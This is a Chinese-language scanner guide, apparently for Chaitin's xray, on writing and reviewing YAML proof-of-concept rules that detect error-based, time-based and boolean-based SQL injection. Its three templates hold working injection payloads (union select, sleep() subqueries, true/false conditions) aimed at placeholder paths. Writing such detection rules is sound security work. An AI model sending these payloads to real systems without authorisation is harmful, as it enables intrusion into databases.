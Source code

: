 # SQL Injection（SQL注入）

对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

!> 测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
	r1: randomInt(8000, 10000)
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
		expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
	author: chaitin
	links:
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/guide/yaml/yaml_poc_template?id=普通注入)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1() && r2()
detail:
	author: Chaitin
	links:
		- http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，比较`推荐`在其中匹配一些特有的返回结果，尽可能地消除网络环境所带来的误报问题，但是不做强求
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可
- **一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值**

?> 这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可

### 模板

[时间盲注](/guide/yaml/yaml_poc_template?id=时间盲注)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
	s1: randomLowercase(5)
	a1: randomInt(1000, 9000)
	a2: randomInt(1000, 9000)
rules:
r0:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象
- 在匹配一些关键词的时候，如果r0中匹配了"EMPNAME"，那么r1中就应该写不匹配这个"EMPNAME"的语句，也就是`!response.body_string.contains("EMPNAME")`

### 模板

[布尔盲注](/guide/yaml/yaml_poc_template?id=布尔盲注)

